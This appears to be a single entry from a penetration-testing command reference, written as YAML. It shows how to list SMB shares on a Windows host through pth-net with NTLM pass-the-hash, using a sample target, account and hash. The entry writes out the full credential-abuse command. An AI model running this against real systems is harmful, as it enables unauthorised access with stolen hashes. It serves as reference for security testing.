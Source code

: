 ```yaml
---
description: Enumerate SMB shares on a remote machine using the net rpc share list command with NTLM Pass-the-Hash.

Command Reference:
    Target IP: 10.10.10.1
    Domain: test.local
    Username: john
    Hash: 580B16D486D8D2CAFA00B314D41FA396 (NTLM hash)

command: |
  pth-net rpc share list -U 'test.local\john%00000000000000000000000000000000:580B16D486D8D2CAFA00B314D41FA396' -S 10.10.10.1

items:
  - Hash

services:
  - SMB
  - NTLM

OS:
  - Windows

attack_types:
  - Enumeration

references:
  - https://www.samba.org/samba/docs/current/man-html/net.8.html
  - https://github.com/byt3bl33d3r/pth-toolkit
  - https://learn.microsoft.com/en-us/windows/win32/fileio/microsoft-smb-protocol-and-cifs-protocol-overview
---
```

